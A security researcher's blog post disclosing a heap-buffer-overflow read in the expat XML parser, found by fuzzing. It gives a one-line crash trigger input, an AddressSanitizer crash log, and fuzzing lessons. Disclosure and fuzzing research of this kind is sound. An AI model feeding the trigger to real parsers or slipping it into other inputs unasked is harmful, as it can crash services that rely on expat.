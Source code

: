 ```yaml
---
layout: post
title:  "[CVE-2016-????] expat xml parser heap overflow vulnerability"
date:   2016-06-17 18:00:00 +0800
categories: security android chromium
---
```


## TL;DR: I found a XML bug that can fit into a Tweet!

Around one month ago I found a nice bug in the `expat` XML parser, which is very popular, it's for sure used in `Android` and `Google Chrome`, but also accordingly to [Wikipedia][expat-wikipedia] it's used also in Apache HTTP Server, Mozilla, Perl, Python and PHP. So it affects lot of software projects and lot of users.

I reported it to the Android team for disclosure but...

...today they notified me there was a bug collision, so I'm writing a blogpost to disclose it.

The coolest thing about this bug is that it can actually the trigger can fit into a tweet :D

If you make it printable it's more or less:

`<?x0?><!DOCTYPE c0 SYSTEM ""[<!----><!ENTITY R0 ""0`

Anyway let's get back to business...

## ASAN Crash

Here you can see the crash (outline is just a tool that takes from stdin the xml and output some informations using the expat library:

{% highlight text %}
➜  examples cat ~/Downloads/expat_minim | ./outline 
=================================================================
==3216== ERROR: AddressSanitizer: heap-buffer-overflow on address 0xf5403e81 at pc 0x8101080 bp 0xffe789e8 sp 0xffe789dc
READ of size 1 at 0xf5403e81 thread T0
    #0 0x810107f (/home/bob/VulnResearch/Android/expat-2.1.1/examples/outline+0x810107f)
    #1 0x8067664 (/home/bob/VulnResearch/Android/expat-2.1.1/examples/outline+0x8067664)
    #2 0x8096cb3 (/home/bob/VulnResearch/Android/expat-2.1.1/examples/outline+0x8096cb3)
    #3 0x80c13cf (/home/bob/VulnResearch/Android/expat-2.1.1/examples/outline+0x80c13cf)
    #4 0x80e6444 (/home/bob/VulnResearch/Android/expat-2.1.1/examples/outline+0x80e6444)
    #5 0x80490af (/home/bob/VulnResearch/Android/expat-2.1.1/examples/outline+0x80490af)
    #6 0xf5fcca82 (/lib/i386-linux-gnu/libc-2.19.so+0x19a82)
    #7 0x80494e5 (/home/bob/VulnResearch/Android/expat-2.1.1/examples/outline+0x80494e5)
0xf5403e81 is located 1 bytes to the right of 2048-byte region [0xf5403680,0xf5403e80)
allocated by thread T0 here:
    #0 0xf6177854 (/usr/lib32/libasan.so.0.0.0+0x16854)
    #1 0x80e7629 (/home/bob/VulnResearch/Android/expat-2.1.1/examples/outline+0x80e7629)
Shadow bytes around the buggy address:
  0x3ea80780: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x3ea80790: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x3ea807a0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x3ea807b0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x3ea807c0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
=>0x3ea807d0:[fa]fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x3ea807e0: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x3ea807f0: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x3ea80800: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x3ea80810: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x3ea80820: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07 
  Heap left redzone:     fa
  Heap righ redzone:     fb
  Freed Heap region:     fd
  Stack left redzone:    f1
  Stack mid redzone:     f2
  Stack right redzone:   f3
  Stack partial redzone: f4
  Stack after return:    f5
  Stack use after scope: f8
  Global redzone:        f9
  Global init order:     f6
  Poisoned by user:      f7
  ASan internal:         fe
==3216== ABORTING
{% endhighlight %}

And you can download the minimized test case [here](/assets/expat_minim)

#### Take aways:
- AddressSanitizer will greatly improve your fault detection capabilities while fuzzing
- Grammar and corpus are very important for fuzzing
- If done right you can find bugs by fuzzing even with a single cheap machine, against the fuzzing giants like Google.

[expat-wikipedia]: https://en.wikipedia.org/wiki/Expat_(library)
